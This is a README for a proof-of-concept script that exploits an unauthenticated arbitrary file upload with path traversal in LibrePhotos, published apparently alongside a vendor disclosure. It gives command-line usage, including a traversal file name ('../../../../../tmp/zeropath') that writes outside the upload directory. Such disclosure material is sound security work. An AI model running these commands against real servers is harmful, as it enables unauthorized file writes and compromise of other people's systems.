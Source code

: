 # LibrePhotos Unauthenticated Arbitrary File Upload Vulnerability + Path Traversal Proof of Concept

This repository contains a Proof of Concept (PoC) script demonstrating an [arbitrary file upload vulnerability in LibrePhotos](https://zeropath.com/blog/librephotos-arbitrary-file-upload-vulnerability). **This tool is for educational and authorized testing purposes only.**

## Usage

### Arbitrary File Upload

To upload a file:

```
python3 file_upload_poc.py --url <target_url> --file <path_to_local_file> --target <target_filename>
```

Example:
```
python3 file_upload_poc.py --url http://example.com:8000 --file /path/to/local/file.txt --target "../../../../../tmp/zeropath"
```
### Additional Options

- `--user`: Specify a custom user ID (default is '1')

Example:
```
python3 file_upload_poc.py --url http://example.com:8000 --file /path/to/local/file.txt --target "file.txt" --user "123"
```
